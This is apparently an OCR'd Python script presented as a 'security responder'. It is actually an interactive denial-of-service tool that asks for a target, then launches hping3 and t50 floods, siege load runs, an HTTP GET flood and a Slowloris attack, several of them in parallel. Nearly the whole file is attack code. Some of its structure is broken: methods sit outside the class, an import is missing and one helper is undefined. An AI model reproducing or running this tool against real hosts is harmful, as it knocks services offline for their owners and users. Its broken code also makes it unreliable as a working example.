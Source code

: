     #!/usr/bin/python3

    import os
    import subprocess
    import socket
    import random
    import asyncio
    import aiohttp
    import time
    import logging
    from concurrent.futures import ThreadPoolExecutor, as_completed
    from colorama import Fore, Style, init
    
    # Инициализация colorama и логирования
    init(autoreset=True)
    logging.basicConfig(filename='attack_log.txt', level=logging.INFO, format='%(asctime)s - %(levelname)s - %(message)s')
    
    os.system("clear")
    os.system("figlet KALINUX SECURITY RESPONDER")
    
    class AttackManager:
        def __init__(self, target_ip, target_port=80, num_requests=1000, max_threads=4, attack_duration=30):
            self.target_ip = target_ip
            self.target_port = target_port
            self.num_requests = num_requests
            self.max_threads = max_threads
            self.attack_duration = attack_duration
            self.protocol_methods = {
                "UDP": self.udp_flood,
                "TCP": self.tcp_syn_flood,
                "HTTP": self.run_http_attack,
                "T50": self.t50_attack,
                "Siege": self.siege_attack,
                "Hping3": self.hping3_attack,
                "Slowloris": self.slowloris_attack,
                "ICMP": self.icmp_flood
            }

    def resolve_ip(self):
        try:
            resolved_ip = socket.gethostbyname(self.target_ip)
            logging.info(f"[#] Target IP: {resolved_ip}")
            return resolved_ip
        except socket.gaierror:
            logging.error("Invalid target domain.")
            sys.exit(1)

    def icmp_flood(self):
        command = f"sudo hping3 {self.target_ip} --icmp --flood"
        subprocess.run(command, shell=True)


    def udp_flood(self):
        command = f"sudo hping3 {self.target_ip} --udp --flood -p {self.target_port}"
        subprocess.run(command, shell=True)

    def tcp_syn_flood(self):
        command = f"sudo hping3 {self.target_ip} -S -p {self.target_port} --flood"
        subprocess.run(command, shell=True)

    async def http_flood(self, session, url):
        headers = {"User-Agent": "Mozilla/5.0", "Connection": "keep-alive"}
        try:
            async with session.get(url, headers=headers) as response:
                logging.info(f"Sent GET request to {url}, Status: {response.status}")
        except Exception as e:
            logging.error(f"Error in HTTP request: {e}")

    async def run_http_attack(self):
        url = f"http://{self.target_ip}:{self.target_port}/{self.generate_random_path()}"
        async with aiohttp.ClientSession() as session:
            tasks = [self.http_flood(session, url) for _ in range(self.num_requests)]
            await asyncio.gather(*tasks)

    def slowloris_attack(self):
        sockets = []
        try:
            for _ in range(self.num_requests):
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(4)
                s.connect((self.target_ip, self.target_port))
                s.send("GET / HTTP/1.1\r\n".encode("utf-8"))
                sockets.append(s)
            while sockets:
                for s in sockets:
                    try:
                        s.send("X-a: {}\r\n".format(random.randint(1, 5000)).encode("utf-8"))
                    except socket.error:
                        sockets.remove(s)
                time.sleep(15)
        except Exception as e:
            logging.error(f"Slowloris error: {e}")

    def hping3_attack(self):
        commands = [
           f"sudo hping3 -A {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -S {self.target_ip} -p {self.target_port} --flood -d 1000",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} -s 1024-65535 --flood",
           f"sudo hping3 -2 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood --interval u10",
           f"sudo hping3 -1 {self.target_ip} -p {self.target_port} --flood",
           f"sudo hping3 -0 {self.target_ip} -p {self.target_port} --flood --interval u1000",
           ]
        for command in commands:
           self.run_command(command, "Hping3 attack")


    def t50_attack(self):
        commands = [
            f"sudo t50 {self.target_ip} --protocol TCP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol ICMP --flood",
            f"sudo t50 {self.target_ip} --protocol UDP --flood --dport {self.target_port}",
            f"sudo t50 {self.target_ip} --protocol IPSEC --flood",
            f"sudo t50 {self.target_ip} --protocol DCCP --flood",
            f"sudo t50 {self.target_ip} --protocol T50 --flood --dport {self.target_port}",
            ]
        for command in commands:
            self.run_command(command, "T50 attack")

    # Методы атак для siege
    def siege_attack(self):
        commands = [
            f"siege -t 1m {self.target_ip}",
            f"siege -c 100 -t 1m {self.target_ip}",
            f"siege -c 200 -t 5m {self.target_ip}",
            f"siege -c 500 -t 1m -r 5 {self.target_ip}",
            f"siege -c 500 -t 5m -r 10 {self.target_ip}",
            f"siege -c 500 -t 5m -r 29 {self.target_ip}",
            ]
        for command in commands:
            self.run_command(command, "Siege attack")

    #    profits from this type of code building is possibility to add/or configure that much attacks as you want.

    def run_command(self, command, description):
        try:
           subprocess.run(command, shell=True, timeout=self.attack_duration)
           logging.info(f"{description} completed.")
        except subprocess.TimeoutExpired:
           logging.warning(f"{description} timed out.")
        except Exception as e:
           logging.error(f"Error during {description}: {e}")


    def execute_attack(self, protocol):
        if protocol == "HTTP":
            asyncio.run(self.run_http_attack())
        elif protocol in self.protocol_methods:
            self.protocol_methods[protocol]()
        else:
            logging.error(f"Invalid protocol: {protocol}")

    def start_parallel_attacks(self, protocols):
        with ThreadPoolExecutor(max_workers=self.max_threads) as executor:
            futures = [executor.submit(self.execute_attack, protocol) for protocol in protocols]
            for future in as_completed(futures):
                try:
                    future.result()
                except Exception as e:
                    logging.error(f"Error during parallel execution: {e}")

    def start_attack_sequence(self):
        print("Choose attack method(s):\n1. ICMP\n2. UDP\n3. TCP\n4. HTTP\n5. Slowloris\n6. T50\n7. Siege")
        method = input("Enter method numbers separated by commas: ")

        protocol_map = {"1": "ICMP", "2": "UDP", "3": "TCP", "4": "HTTP", "5": "Slowloris", "6": "T50", "7": "Siege"}
        selected_protocols = [protocol_map.get(m.strip()) for m in method.split(",") if protocol_map.get(m.strip())]

        if selected_protocols:
            print(Fore.RED + f"Starting attack(s): {', '.join(selected_protocols)}...")
            self.start_parallel_attacks(selected_protocols)
        else:
            print(Fore.RED + "Invalid selection.")

    if __name__ == "__main__":
        target_host = input(Fore.BLUE + "Enter target host (IP or domain): " + Style.RESET_ALL)
        target_port = int(input(Fore.BLUE + "Enter target port (default 80): " + Style.RESET_ALL) or 80)
        num_requests = int(input(Fore.BLUE + "Enter number of requests for HTTP Flood (default 1000): " + Style.RESET_ALL) or 1000)
        max_threads = int(input(Fore.BLUE + "Enter max threads (default 4): " + Style.RESET_ALL) or 4)

    manager = AttackManager(target_host, target_port, num_requests, max_threads)
    manager.start_attack_sequence()
